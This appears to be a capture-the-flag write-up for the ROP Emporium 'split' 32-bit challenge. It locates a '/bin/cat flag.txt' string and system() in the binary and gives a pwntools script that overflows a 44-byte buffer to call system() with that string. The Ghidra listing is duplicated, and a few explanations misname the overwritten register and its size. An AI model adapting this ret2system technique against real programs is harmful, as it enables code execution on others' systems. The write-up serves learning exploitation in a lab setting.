

## Split
### Challenge Descirption : Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain.

---
### HINT : I'll let you in on a secret; that useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It's just a case of finding them and chaining them together to make the magic happen.

---

So, we have a binary with a `system` function in built, and a string `/bin/cat flag.txt` . 

Let's open up the binary in ghidra and search for the string. In the .data section
```
                             //
                             // .data 
                             // SHT_PROGBITS  [0x804a028 - 0x804a049]
                             // ram: 0804a028-0804a049
                             //
                             __data_start                                    XREF[2]:     Entry Point(*), 
                             data_start                                                   _elfSectionHeaders::000003f4(*)  
        0804a028 00              ??         00h
        0804a029 00              ??         00h
        0804a02a 00              ??         00h
        0804a02b 00              ??         00h
                             __dso_handle                                    XREF[1]:     Entry Point(*)  
        0804a02c 00              ??         00h
        0804a02d 00              ??         00h
        0804a02e 00              ??         00h
        0804a02f 00              ??         00h
                             usefulString                                    XREF[1]:     Entry Point(*)  
                             //
                             // .data 
                             // SHT_PROGBITS  [0x804a028 - 0x804a049]
                             // ram: 0804a028-0804a049
                             //
                             __data_start                                    XREF[2]:     Entry Point(*), 
                             data_start                                                   _elfSectionHeaders::000003f4(*)  
        0804a028 00              ??         00h
        0804a029 00              ??         00h
        0804a02a 00              ??         00h
        0804a02b 00              ??         00h
                             __dso_handle                                    XREF[1]:     Entry Point(*)  
        0804a02c 00              ??         00h
        0804a02d 00              ??         00h
        0804a02e 00              ??         00h
        0804a02f 00              ??         00h
                             usefulString                                    XREF[1]:     Entry Point(*)  
        0804a030 2f 62 69        ds         "/bin/cat flag.txt"
                 6e 2f 63 
                 61 74 20 
        0804a042 00              ??         00h
        0804a043 00              ??         00h
        0804a044 00              ??         00h
        0804a045 00              ??         00h
        0804a046 00              ??         00h
        0804a047 00              ??         00h
        0804a048 00              ??         00h
        0804a049 00              ??         00h
        0804a030 2f 62 69        ds         "/bin/cat flag.txt"
                 6e 2f 63 
                 61 74 20 
        0804a042 00              ??         00h
        0804a043 00              ??         00h
        0804a044 00              ??         00h
        0804a045 00              ??         00h
        0804a046 00              ??         00h
        0804a047 00              ??         00h
        0804a048 00              ??         00h
        0804a049 00              ??         00h
```
A variable usefulString contains `/bin/cat flag.txt`

Now for the exploit 

Considering a buffer overflow vulnerability in the binary, we'll find a offset, then change EBP to point to the system function while passing usefulString as a parameter.

In the function call stack



We will overflow the stack so that, we modify old%EBP to point to `system` with fcn param#1 to point to `usefulString`

so the final call stack looks like 

| OFFSET 	| System Address 	| 4 Bit old %EIP or JUNK 	| usefulString Address 	|
|--------	|----------------	|------------------------	|----------------------	|

Like before, we calculate the offset, which turns out to be `44`

`exploit.py`
```
from pwn import *

elf = context.binary = ELF('split32')

info("SYSTEM : %#x", elf.symbols.system)
info("STRING : %#x",elf.symbols.usefulString)


system = p32(elf.symbols.system)
strings = p32(elf.symbols.usefulString)
payload = 'A'*44 + system + p32(0xDEAD) + strings
io = process(elf.path)
io.recvuntil('>')
io.sendline(payload)
io.interactive()
```

`output`
```
python2 exploit.py 
[*] '/ropemporium/split/split32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] SYSTEM : 0x8048430
[*] STRING : 0x804a030
[+] Starting local process '/ropemporium/split/split32': pid 23992
[*] Switching to interactive mode
 ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Process '/ropemporium/split/split32' stopped with exit code -11 (SIGSEGV) (pid 23992)
```